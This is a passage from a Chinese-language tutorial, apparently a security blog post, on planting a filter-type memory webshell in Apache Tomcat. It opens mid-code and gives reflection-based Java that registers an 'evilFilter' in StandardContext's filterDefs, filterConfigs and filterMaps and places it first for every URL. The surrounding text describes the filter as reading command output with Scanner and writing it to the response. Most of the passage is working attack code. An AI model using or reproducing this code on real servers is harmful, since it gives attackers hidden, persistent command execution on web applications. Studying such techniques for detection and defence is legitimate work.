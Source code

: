 ```java
        }
        chain.doFilter(request, response);
    }

};
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName("evilFilter");
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```
`Scanner(in).useDelimiter("\\A");`scannner读入所有输入，包括回车和换行符（默认读到空格停止，`\\A`表示以文本开头作为分隔符分割文本)

将output写入response，获取完参数将request和response作为回调参数调用doFilter。

重点在于setFilter修改filter，然后使用standardContext.addFilter()添加FilterDefs



### 3.filterConfig封装filterDefs，并添加到filterConfigs

利用反射获取filterConifigs，filterConfigs实际上是个hashmap，put进去就行了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227213830277.png)

前面说过了，standardContext实际上是ApplicationFilterConfigContext封装的。

利用ApplicationFilterConfigContext构造函数来封装filterfDefs，不过该构造函数无修饰符，为default（同包可用），使用反射

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227212217994.png)

```java
	Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

    Field filterConfigsField = StandardContext.class.getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);
    filterConfigs.put("evilFilter", filterConfig);

```

### 4.生成filterMap添加到filterMaps

filterMaps需要设置名称，pattern，dispatcher

这里的dispatcher需要设置为DispatcherType.REQUEST，该选项指定了filter过滤器根据DispatcherType的类型是否执行。这也是为什么需要tomcat7以上的原因

FilterMaps可以用两种方式添加map：addFilterMap 或者addFilterMapBefore()，后者可以将filter添加至最前面

```java
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName("evilFilter");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
```
将抽象类的方法补全就能用了
